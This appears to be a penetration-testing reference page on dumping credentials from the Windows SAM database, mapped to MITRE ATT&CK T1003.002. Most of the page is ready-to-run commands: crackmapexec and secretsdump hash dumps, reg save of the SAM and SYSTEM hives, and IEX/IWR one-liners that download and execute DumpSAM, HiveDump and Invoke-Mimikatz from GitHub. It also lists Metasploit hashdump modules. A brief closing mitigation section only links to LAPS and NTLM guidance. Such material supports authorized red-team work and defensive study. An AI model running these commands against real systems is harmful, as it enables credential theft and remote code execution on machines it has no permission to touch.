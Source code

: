 ```yaml
---
description: https://attack.mitre.org/techniques/T1003/002/
---
```


# Security Account Manager (SAM)

**ATT\&CK ID:** [T1003.002](https://attack.mitre.org/techniques/T1003/002/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command. Enumerating the SAM database requires SYSTEM level access.

## Linux Techniques

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -p <Password> --sam

# Use the local-auth parameter when authenticating as a local account
crackmapexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

![](<../../../../.gitbook/assets/image (162) (2).png>)

### Secretsdump

```bash
# Dump from SAM and SYSTEM. Ensure files are in current working directory
secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

<figure><img src="../../../../.gitbook/assets/image (2115).png" alt=""><figcaption></figcaption></figure>

## Windows Techniques

```powershell
# Manually save SAM and SYSTEM files (if needed for any tools below)
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

### DumpSam

This tool will filter out some default accounts such as Guest and the wdagutilityaccount account from the results.

Github: [https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1](https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1)

```powershell
# Download and execute
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/DumpSAM.ps1)
```

### HiveDump

Github: [https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1](https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1)

```powershell
# Load into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

# Dump
Invoke-HiveDump
```

### Mimikatz

Github: [https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1)

<pre class="language-powershell"><code class="lang-powershell"><strong># Load into memory
</strong><strong>IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")
</strong><strong>
</strong><strong># Dump from SAM and SYSTEM. Enusre files are in current working directory
</strong>Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the live hive files
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
</code></pre>

## Metasploit

```bash
# Modules
use post/windows/gather/hashdump
use post/windows/gather/credentials/credential_collector

# Meterpreter Shell
hashdump

# Extension:Kiwi
lsa_dump_s
```

<figure><img src="../../../../.gitbook/assets/image (2117).png" alt=""><figcaption></figcaption></figure>

## Mitigation



### LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=46899" %}

### Restrict NTLM Traffic

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/jj865668(v=ws.10)?redirectedfrom=MSDN" %}
